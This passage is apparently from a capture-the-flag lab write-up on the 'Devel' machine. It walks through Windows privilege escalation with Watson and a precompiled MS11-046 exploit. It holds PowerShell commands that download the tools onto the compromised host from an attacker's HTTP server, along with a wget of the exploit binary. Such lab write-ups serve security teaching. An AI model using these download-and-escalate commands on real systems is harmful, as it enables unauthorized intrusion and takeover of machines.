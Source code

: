 Then on your low privilege shell:

    powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.24:8080/Watson.exe','C:\Windows\Temp\Watson.exe')"

![](/images/devel/26. powershell.png)

On your Kali python SimpleHTTPServer you should see:

![](/images/devel/27. get.png)

Now, we can finally run Watson.exe and choose a path to privilege escalation:

    Watson.exe

![](/images/devel/28. watson.png)
![](/images/devel/28. watson_2.png)
![](/images/devel/28. watson_3.png)

Above we see our output from Watson.exe. Since we used MS10-015 earlier through Metasploit, we are going to use MS11-046 to show how this machine is vulnerable to multiple privilege escalation techniques.

Another way to see if the Ancillary Function Drive (AFD) is installed is to run “DRIVERQUERY” from the command line:

![](/images/devel/29. driverquery.png)

The presence of AFD here indicates this is likely vulnerable to MS11-046 privesc. That might have saved us some time on this one, but working with Watson can prove helpful in the future.

Next we can search for and download a pre-compiled exploit for MS11-046. The one we will use is on SecWiki's github site. 

Normally, I prefer to download source code and compile it myself since that allows better insight into what the code is doing and how I might need to modify it to my specific situation. In this case though, SecWiki's ms11-046.exe is good enough for us to use:

    wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS11-046/ms11-046.exe

On your Kali machine, run the simpleHTTPServer again:
  
    python -m SimpleHTTPServer 8080

Over on the low privileged shell on Devel, run the following powershell command to grab the ms11-046.exe exploit.

    powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.24:8080/ms11-046.exe','C:\Windows\Temp\MS11-046.exe')"

If the shell does not show the transfer occurring, just hit Enter again after a few moments.

![](/images/devel/30. powershell.png)

Next we need to navigate to the Temp directory (if you haven't already) and confirm the file downloaded:
